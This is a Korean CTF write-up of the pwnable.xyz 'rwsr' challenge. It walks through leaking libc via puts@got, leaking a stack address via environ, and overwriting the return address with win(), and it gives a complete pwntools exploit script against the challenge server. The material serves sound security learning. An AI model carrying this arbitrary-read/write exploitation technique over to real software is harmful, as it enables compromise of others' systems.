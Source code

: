 ```yaml
---
title: "[pwnable.xyz]rwsr"
date: 2020-1-31
ctf: Pwnable.xyz
layout: post
published : false
---
```


Full RELRO, Canary, NX 보호기법이 적용되어있다. 

```
[*] '/vagrant/ctfs/challenge'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

원하는 주소의 값을 읽을 수 있고 그 해당 주소에 값을 쓸 수 있다.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v3; // eax
  char *s; // ST10_8
  char *v6; // ST10_8

  setup();
  puts("Read Write Sleep Repeat.");
  do
  {
    while ( 1 )
    {
      while ( 1 )
      {
        print_menu();
        v3 = read_ulong();
        if ( v3 != 1 )
          break;
        printf("Addr: ", argv);                 // read
        s = read_ulong();
        puts(s);
      }
      if ( v3 != 2 )                            // write
        break;
      printf("Addr: ", argv);
      v6 = read_ulong();
      printf("Value: ");
      *v6 = read_ulong();
    }
  }
  while ( v3 );
  return 0;
}
```

write라 got 덮을라 했는데 Full RELRO여서 return address를 write하는 방법을 생각했다. 

environ을 이용해서 stack leak을 해주면 된다. 우선 원하는 주소의 값을 알 수 있으니까 puts@got를 read하면 실제 주소가 나올거고 립씨 베이스도 구할 수 있다.

environ을 이용해서 stack 릭하는 방법은 `libc_base + libc.symbols['environ']` 을 leak하면 stack 주소를 구할 수 있다. 

그리고 리턴 주소를 구해야하는데 우선 rbp+8이 리턴주소니까 rbp와 leak한 stack주소의 오프셋을 구해줘서 + 8 해주면 된다.

이후에 2번 메뉴 Write로 return address에 win함수 주소를 넣고 exit해주면 win으로 리턴된다.

environ을 이용해서 stack leak하기 위해서 필요한 것은 립씨 베이스를 알아야하고 environ을 leak할 수 있어야한다.

> exploit.py

```python
from pwn import *

context.log_level = 'debug'
e = ELF('./challenge')
# p = process('./challenge')
# libc = e.libc
p = remote('svc.pwnable.xyz',30019)
libc = ELF('alpine-libc-2.28.so')
sa = lambda x,y : p.sendafter(x,y)
sla = lambda x,y : p.sendlineafter(x,y)
win = e.symbols['win']
main = e.symbols['main']

sla('>','1')
sa(':',str(e.got['puts']))
puts = u64(p.recvuntil('\x7f')[-6:]+'\x00\x00')
log.info('puts : {}'.format(hex(puts)))
libc_base = puts - libc.symbols['puts']
log.info('libc_base : {}'.format(hex(libc_base)))
environ_ptr = libc_base + libc.symbols['environ'] 
log.info('environ_ptr : {}'.format(hex(environ_ptr)))

sla('>','1')
sa(':',str(environ_ptr))
environ = u64(p.recvuntil('\x7f')[-6:]+'\x00\x00')
log.info('environ : {}'.format(hex(environ)))
# environ - rbp = 248
rbp = environ - 248
log.info('rbp : {}'.format(hex(rbp)))
return_add = rbp + 8
log.info('return : {}'.format(hex(return_add)))

sla('>','2')
sa(':',str(return_add))
sa(':',str(win))

sla('>','0')

p.interactive()
```

